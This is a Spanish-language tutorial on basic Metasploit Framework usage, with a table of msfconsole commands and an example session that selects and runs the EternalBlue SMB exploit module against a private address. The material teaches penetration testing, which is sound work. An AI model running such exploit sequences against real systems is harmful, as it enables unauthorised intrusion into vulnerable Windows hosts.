

Uso básico de Metasploit Framework
Antes de continuar, asegúrate de haber completado correctamente la instalación de Metasploit.
Iniciar la consola
El componente principal para interactuar con Metasploit es msfconsole. Para iniciarlo, abre tu terminal y ejecuta:
msfconsole
Esto abrirá la interfaz interactiva desde la cual se gestionan exploits, payloads y módulos auxiliares.
Comandos esenciales
A continuación, una lista de los comandos más utilizados dentro de msfconsole:
| Comando | Descripción |
|---|---|
search <término> |
Busca módulos relacionados con un término o CVE. |
use <módulo> |
Selecciona un módulo (exploit, payload, auxiliary, etc.). |
show options |
Muestra las opciones configurables del módulo actual. |
set <opción> <valor> |
Configura un parámetro del módulo seleccionado. |
run / exploit |
Ejecuta el módulo configurado. |
back |
Sale del módulo actual sin cerrar la consola. |
Ejemplo de flujo de trabajo
A continuación, un ejemplo de cómo localizar y configurar un módulo:
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 192.168.1.10
msf6 exploit(...) > run

Buenas prácticas
Utiliza siempre el comando show options antes de ejecutar cualquier módulo. Esto te permite verificar que todos los parámetros obligatorios (marcados como yes en la columna Required) estén correctamente configurados.
Recursos adicionales
Si tienes dudas sobre la instalación, puedes regresar a la sección de Instalación para repasar los pasos.